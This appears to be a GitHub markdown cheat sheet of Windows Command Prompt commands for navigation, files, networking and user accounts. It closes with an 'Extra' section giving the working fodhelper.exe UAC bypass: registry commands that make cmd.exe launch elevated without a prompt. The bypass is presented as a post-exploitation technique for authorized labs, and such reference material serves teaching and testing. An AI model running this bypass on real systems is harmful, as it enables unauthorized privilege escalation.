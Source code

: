 # Windows Command Prompt

## Table of Contents

- [Introduction](#introduction)
- [Basic Navigation](#basic-navigation)
- [File and Directory Management](#file-and-directory-management)
- [File Manipulation](#file-manipulation)
- [System and Network Utilities](#system-and-network-utilities)
- [User Management](#user-management)
- [Extra: Bypassing UAC via Command Prompt](#extra-bypassing-uac-via-command-prompt)

---

## Introduction

The Windows Command Prompt (`cmd.exe`) is a command-line interpreter that has been part of Windows systems since the early days of MS-DOS, released in 1981. It remains a powerful tool for automation, scripting, and direct system interaction.

Although modern tools like PowerShell and Windows Terminal offer enhanced features, the classic Command Prompt is still widely used for its simplicity, speed, and legacy script compatibility.

---

## Basic Navigation

- `echo %cd%` – Displays the current working directory.
- `cd` – Changes to a directory.
- `cd ..` – Moves up one level.
- `cd \` – Goes to the root directory.
- `dir` – Lists contents of the current directory.

---

## File and Directory Management

- `mkdir foldername` – Creates a new folder.
- `rmdir foldername` – Removes an empty folder.
- `rmdir /s foldername` – Deletes a folder and all its contents.
- `dir /a` – Lists hidden files and folders.

---

## File Manipulation

- `echo "text" > filename.txt` – Creates a file with content (overwrites).
- `echo "text" >> filename.txt` – Appends content to an existing file.
- `type filename.txt` – Displays the content of a file.
- `cls` – Clears the screen.
- `copy source.txt dest.txt` – Copies a file.
- `move source.txt dest.txt` – Moves or renames a file.
- `del filename.txt` – Deletes a file.
- `attrib +h filename.txt` – Hides a file.

---

## System and Network Utilities

- `ipconfig` – Displays basic IP configuration.
- `ipconfig /all` – Displays full IP configuration details.
- `netstat -n` – Shows active network connections.
- `netstat -p tcp` or `netstat -p udp` – Displays TCP/UDP connections.
- `tasklist` – Lists all running processes.
- `taskkill /pid [pid]` – Terminates a process by PID.

---

## User Management

- `net user` – Lists all user accounts.
- `net user username` – Displays details of a specific user.
- `net user username password /add` – Creates a new user.
- `net user username /delete` – Deletes a user account.

---

## Extra: Bypassing UAC via Command Prompt

In some cases, if the current user is already part of the Administrators group (but without elevated privileges), it's possible to bypass UAC using only the Command Prompt, without external tools.

### Requirements

- The user must have Administrator rights.
- UAC must not be set to “Always notify.”
- Tested on Windows 10 and Windows 11.

### Command Prompt UAC Bypass (Fodhelper Method)

This technique abuses the `fodhelper.exe` binary, which is marked as `autoElevate` in its manifest.

Steps:

```cmd
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v "DelegateExecute" /f
start fodhelper.exe
```

A new `cmd.exe` window will open with elevated (Administrator) privileges, without prompting for UAC confirmation.

To clean up:

```cmd
reg delete HKCU\Software\Classes\ms-settings /f
```

This is a well-known technique used in post-exploitation scenarios to escalate privileges once inside a system.

Use only in ethical hacking labs or with proper authorization.